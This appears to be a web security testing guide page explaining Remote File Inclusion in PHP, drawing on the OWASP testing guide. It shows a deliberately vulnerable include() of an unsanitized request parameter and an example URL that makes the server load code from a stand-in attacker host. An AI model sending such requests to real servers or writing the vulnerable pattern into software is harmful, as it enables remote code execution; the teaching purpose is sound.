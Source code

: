 # Remote File Inclusion

Remote File Inclusion (also known as RFI) is the method of including remote files in an application by leveraging insecure inclusion procedures. This weakness happens when a page receives the link to the file that needs to be used as input and does not properly sanitize it, allowing an external URL to be injected.

## Manually

Since RFI occurs when paths passed to “include” statements are not properly sanitized, in a black-box testing approach, the tester should look for scripts which take filenames as parameters. Consider the following example taken from https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion.html

``` PHP
    $incfile = $_REQUEST["file"];
    include($incfile.".php");

```

This snippet of code is vulnerable to this type of attack since the path is derived from the HTTP request and no input validation is performed (for example, by testing the input against a whitelist). Consider the URL below:

```bash
    http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
```

The remote file will be used in this scenario, and any code stored in it will be executed by the server.
